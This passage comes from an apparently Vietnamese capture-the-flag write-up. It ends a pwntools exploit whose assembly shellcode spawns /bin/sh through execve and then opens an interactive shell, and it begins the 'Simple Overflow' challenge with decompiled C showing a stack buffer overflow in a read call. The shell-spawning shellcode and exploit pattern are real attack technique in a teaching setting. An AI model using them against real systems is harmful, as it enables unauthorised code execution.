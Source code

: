 ```python
    mov rax, 29400045130965551
    push rax
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 0x3b
    syscall
""")

time.sleep(2)

p.sendline(shellcode2)

p.interactive() 
# KCSC{https://www.youtube.com/watch?v=dQw4w9WgXcQ}
```

## pwn/Simple Overflow

{{< admonition note "Challenge Information" >}}
* 2 solves / 496 pts / by Nuuuuuuuu
* **Given files:** [simple_overflow.zip](https://wru-my.sharepoint.com/:u:/g/personal/2251272678_e_tlu_edu_vn/EUlfGWaVWGlCikIA45vdnVQBmb8jzs-1yK8KiWvShSwOiQ?e=tm96Lp)
* **Description:** simple description since it’s simple overflow\
**`nc 103.162.14.116 12004`**
{{< /admonition >}}

**Solution**

Chúng ta có thể thấy sự xuất hiện của lỗ hổng BOF ở hàm **`save_data`** tại hàm **`read`** 

```c
unsigned __int64 __fastcall save_data(const char *a1)
{
  int i; // [rsp+14h] [rbp-4Ch]
  unsigned __int64 v3; // [rsp+18h] [rbp-48h]
  __int64 buf[2]; // [rsp+20h] [rbp-40h] BYREF
  char s[8]; // [rsp+30h] [rbp-30h] BYREF
  __int64 v6; // [rsp+38h] [rbp-28h]
  __int64 v7; // [rsp+40h] [rbp-20h]
  __int64 v8; // [rsp+48h] [rbp-18h]
  unsigned __int64 v9; // [rsp+58h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  *(_QWORD *)s = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  buf[0] = 0LL;
  buf[1] = 0LL;
  snprintf(s, 0x20uLL, "Hi %s, let me keep your data\n", a1);
  printf("%s", s);
  puts("How many data you want to save?");
  v3 = get_long();
  fflush(stdin);
  for ( i = 0; v3 > i; ++i )
  {
    puts("Data: ");
    read(0, buf, 256uLL);
    strcpy(saved_data, (const char *)buf);
    puts(saved_data);
  }
  puts("Your data is saved");
  return v9 - __readfsqword(0x28u);
```